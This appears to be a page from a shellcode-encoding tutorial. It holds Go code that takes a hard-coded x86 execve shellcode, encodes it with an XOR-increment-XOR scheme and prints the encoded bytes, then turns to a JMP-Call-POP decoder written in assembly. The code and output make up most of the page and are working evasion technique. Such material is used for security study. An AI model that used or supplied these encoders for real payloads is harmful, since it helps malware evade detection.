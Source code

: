 ```go
package main

import "fmt"

func main() {

	// Hard-coded original shellcode
	shellcode := []byte{0x31, 0xc0, 0x50, 0x68, 0x62, 0x61, 0x73, 0x68, 0x68, 0x62, 0x69, 0x6e, 0x2f, 0x68, 0x2f, 0x2f, 0x2f, 0x2f, 0x89, 0xe3, 0x50, 0x89, 0xe2, 0x53, 0x89, 0xe1, 0xb0, 0x0b, 0xcd, 0x80}

	var key1 byte = 0x05 // 1st XOR value
	var key2 byte = 0x11 // 2nd XOR value

	encodedShellcode := make([]byte, len(shellcode))

	for i := range shellcode {

		xor1 := shellcode[i] ^ key1 // 1st XOR by 0x05
		inc := xor1 + 2             // Increment by 2
		xor2 := inc ^ key2          // 2nd XOR by 0x11
		encodedShellcode[i] = xor2
	}

	fmt.Printf("[INFO] Lengh: %v\n", len(encodedShellcode))
	fmt.Printf("[INFO] Encoded Shellcode: ")

	for c := 0; c < len(encodedShellcode); c++ {

		if encodedShellcode[c] < 16 { // Here to check if the Hex value is a single digit.

			fmt.Printf("0x0%x,", encodedShellcode[c])

		} else {

			fmt.Printf("0x%x,", encodedShellcode[c])
		}
	}
}
```

When we run the script, we can get the XOR-Increment-XOR encoded shellcode.

```bash
# go run encoder.go
[INFO] Lengh: 30
[INFO] Encoded Shellcode: 0x27,0xd6,0x46,0x7e,0x78,0x77,0x69,0x7e,0x7e,0x78,0x7f,0x7c,0x3d,0x7e,0x3d,0x3d,0x3d,0x3d,0x9f,0xf9,0x46,0x9f,0xf8,0x49,0x9f,0xf7,0xa6,0x01,0xdb,0x96,
```

# Decoder
Now let's create a decoder in ASM. We will introduce a technique called JMP-Call-POP to place the encoded shellcode in `ESI` register and start our decoding process. 
